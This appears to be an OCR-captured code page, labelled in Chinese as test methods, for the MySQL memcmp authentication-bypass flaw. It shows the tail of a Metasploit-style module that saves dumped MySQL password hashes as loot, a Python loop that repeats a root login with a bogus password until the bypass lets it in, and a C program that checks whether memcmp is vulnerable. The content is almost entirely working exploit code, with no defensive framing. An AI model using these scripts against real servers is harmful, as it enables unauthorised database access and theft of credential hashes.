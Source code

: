 ```ruby
filename= &quot;#{rhost}-#{rport}_mysqlhashes.txt&quot;
path = store_loot(&quot;mysql.hashes&quot;, &quot;text/plain&quot;, rhost, hash_loot, filename, &quot;MySQL Hashes&quot;, service)
print_status(&quot;#{rhost}:#{rport} Hash Table has been saved: #{path}&quot;)

end

end
```

```python

########################################################################################
测试方法,2

#!/usr/bin/python
import subprocess

while 1:
 subprocess.Popen(&quot;mysql -u root mysql --password=blah&quot;, shell=True).wait()

########################################################################################
```

```cpp
测试方法,3

#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;

int main(void) {
 int one, two, ret;
 time_t start = time(0);
 time_t now;

 srand(getpid()*start);
 while (1) {
 one = rand();
 two = rand();
 ret = memcmp(&amp;one, &amp;two, sizeof(int));
 if (ret &lt; -128 || ret &gt; 127)
 break;
 time(&amp;now);
 if (now - start &gt; 10) {
 printf(&quot;Not triggered in 10 seconds, *probably* not vulnerable..n&quot;);
 return 1;
 }
 }
 printf(&quot;Vulnerable! memcmp returned: %dn&quot;, ret);
 return 0;
}
```
